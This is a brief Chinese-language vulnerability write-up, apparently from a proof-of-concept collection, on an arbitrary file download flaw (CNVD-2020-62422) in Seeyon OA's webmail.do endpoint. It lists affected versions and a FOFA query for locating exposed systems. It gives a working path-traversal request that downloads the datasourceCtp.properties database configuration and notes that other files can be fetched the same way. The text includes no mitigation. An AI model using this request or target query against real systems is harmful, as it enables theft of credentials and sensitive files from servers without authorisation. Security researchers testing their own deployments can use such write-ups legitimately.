# 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

```
致远OA A6-V5
致远OA A8-V5
致远OA G6
```

## FOFA

```
app="致远互联-OA"
```

## 漏洞复现

验证POC

```
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 `datasourceCtp.properties` 配置文件

![image-20220520153850024](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201538060.png)

更改参数 filePath 可下载其他文件